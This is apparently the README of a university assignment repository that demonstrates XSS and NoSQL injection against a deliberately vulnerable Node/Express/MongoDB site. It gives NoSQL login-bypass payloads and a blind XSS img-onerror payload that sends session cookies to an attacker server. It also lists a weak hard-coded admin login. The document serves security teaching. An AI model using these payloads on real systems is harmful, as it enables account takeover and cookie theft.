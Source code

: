 # ISEC3004-Assignment

## Introduction<br>

This is a repository for ISEC3004 Assignment. The assignment focuses on demostrating XSS and NoSQL Injection attacks.<br>
<br>
#### index.html - Main page for the website<br>
#### Backend - Backend Server
This backend acts as a server for the website. It is written in JavasScript using NodeJS runtime environment and ExpressJS framework. It uses MongoDB as the database.<br>
To run the backend server, navigate to the directory and run the following commands:<br>
  
```console
npm install
nodemon index.js
```
<b>Make sure to replace the mongoose.connect the URL with your mongoDB URL by specifying MONGO_URL value in .env file.</b>

#### EvilBackend - Backend Server for Blind XSS<br>
This backend acts as the server used by the bad actor to hunt for sesstion cookies. It is written in JavasScript using NodeJS runtime environment and ExpressJS framework.<br>
To run the backend server, navigate to the directory and run the following commands:<be>

```console 
npm install
nodemon index.js
```
<b>Make sure to specify EMAIL_TOKEN, EMAIL_FROM, EMAIL_TO, EMAIL_PASSWORD values in .env file.</b>

***

#### NoSql - NoSQL Injection Attack<br>
1. A bad actor can use the following payload to login as a different user if the email is known.<br>

```console
"password": {"$ne": null}
```
<br>
2. If the email is unknown the following payload will log you in as the first user in the database (In most cases the admin) <br>

```console
"email": {"$ne": null}, "password": {"$ne": null}
```
<br>

In the above scenarios, {"$ne": null} means <b>not equal to null</b>.

#### XSS - XSS Attack <br>
When a user account is created with a XSS payload as the user such as: <br>

```console 
<img src="invalid-url" onerror="this.src='http://localhost:5001/hack?cookie='+document.cookie; this.removeAttribute('onerror');"></img>
```
<br>
The payload will be executed when the Administrator of the system loads the admin page. The invalid source url will cause an error and execute the XSS payload in onerror attribute. The payload will send the session cookie to the bad actor's server. The EvilBackend server will then display the session cookie on the page and send a Email to the bad actor as a notification.<br>
<br>
Administrator account credentials:<br>
Email: gimantha@gmail.com<br>
Password: 123

